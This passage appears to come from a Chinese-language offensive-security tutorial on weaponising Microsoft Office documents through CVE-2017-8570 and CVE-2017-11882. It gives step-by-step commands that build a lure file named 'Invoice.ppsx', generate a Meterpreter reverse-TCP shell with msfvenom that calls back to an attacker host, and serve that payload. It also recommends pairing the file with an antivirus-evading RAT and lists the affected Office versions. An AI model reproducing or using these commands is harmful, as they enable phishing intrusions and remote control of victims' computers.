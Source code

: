 对于溢出漏洞，直接编写 shellcode 执行更灵活更安全，并非一定使用上述 cmd，如 chm 可以编写混淆 js(html 利用) 等。

### Offic 类型：

#### CVE-2017-8570

##### 漏洞介绍

```bash
ppsx 格式漏洞 (ppt)，利用释放特性和机制，双击 ppt 时下载 - 自动执行，样本构建过程相对固定，这里就直接用.py 脚本构建。
```

##### 构建利用步骤

```bash
python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.128.145/logo.doc
```

可以利用 Msf 回连远控，使用方式如下：

-   生成可执行文档
    
    ```bash
    python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.128.145/logo.doc
    ```
    
-   msf 生成回连 Shellcode
    
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.128.145 LPORT=2255 -f exe > /tmp/shell.exe
    ```
    
-   监听 shellcode
    
    ```bash
    python cve-2017-8570_toolkit.py -M exp -e http://192.168.128.145/shell.exe -l /tmp/shell.exe
    ```
    

这种方式查杀几率较大，但有应用场景，需要配合 RAT(可过免杀) 使用。

#### CVE-2017-11882

##### 漏洞介绍

```bash
2017 年 11 月 14 日微软发布了 11 月安全补丁，其中包含隐藏 17 年之久的 Office 漏洞，编号 CVE-2017-11882，类型是内存破坏 (溢出)，影响了几乎全部 Office 版本，攻击者可以利用漏洞进行任意攻击。
```

Rtf 是一种文档格式，它能够被多数的 Office 软件打开，兼容性比较好，文档格式如下：

```bash
RTF_HEADER + OBJECT_HEADER + OBJECT_DATA +shellcode+ OBJDATA_TEMPLATE + RTF_TRAILER。
```

##### 影响版本：

```bash
Office 365
Microsoft Office 2000      
Microsoft Office 2003      
Microsoft Office 2007 Service Pack 3
Microsoft Office 2010 Service Pack 2
Microsoft Office 2013 Service Pack 1
Microsoft Office 2016
```

